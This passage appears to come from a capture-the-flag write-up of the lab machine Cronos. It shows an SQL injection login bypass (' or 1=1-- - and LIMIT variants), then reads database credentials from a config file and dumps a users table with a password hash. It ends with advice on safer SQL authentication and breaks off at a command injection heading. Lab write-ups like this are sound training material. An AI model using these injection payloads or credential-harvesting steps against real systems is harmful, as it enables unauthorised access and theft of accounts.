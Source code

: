     SELECT id FROM users WHERE username = '' or 1=1-- -' and password = '$mypassword'
    

That will return all the users from the database.

Next the PHP checks that exactly one row was returned. If I log into the database from Cronos, I can see that the DB only has one user in it. First get the creds in :`/var/www/admin/config.php`

    <?php
       define('DB_SERVER', 'localhost');
       define('DB_USERNAME', 'admin');
       define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
       define('DB_DATABASE', 'admin');
       $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
    ?>
    

Now I can connect and dump the users:

    root@cronos:/var/www/admin# mysql -u admin -pkEjdbRigfBHUREiNSDs admin 
    mysql: [Warning] Using a password on the command line interface can be insecure.
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A
    
    Welcome to the MySQL monitor.  Commands end with ; or \g.
    Your MySQL connection id is 47
    Server version: 5.7.17-0ubuntu0.16.04.2 (Ubuntu)
    
    Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.
    
    Oracle is a registered trademark of Oracle Corporation and/or its
    affiliates. Other names may be trademarks of their respective
    owners.
    
    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
    
    mysql> select * from users;
    +----+----------+----------------------------------+
    | id | username | password                         |
    +----+----------+----------------------------------+
    |  1 | admin    | 4f5fffa7b2340178a716e3832451e058 |
    +----+----------+----------------------------------+
    1 row in set (0.00 sec)
    

Had this been a real DB, that wouldn’t have worked. Still, I could have used a user , and then it would have logged me in as the first user, and I could have use to get the xth user (0 based).`' or 1=1 LIMIT 1-- -``LIMIT X,1`

In general, when writing SQL-base auth in applications, it’s best to get the rows that match the username, and then compare the password hash from that row to the hash of the input password. That will prevent the password check’s being commented out in an injection.

#### Command Injection

The command injection happens in :`/var/www/admin/welcome.php`
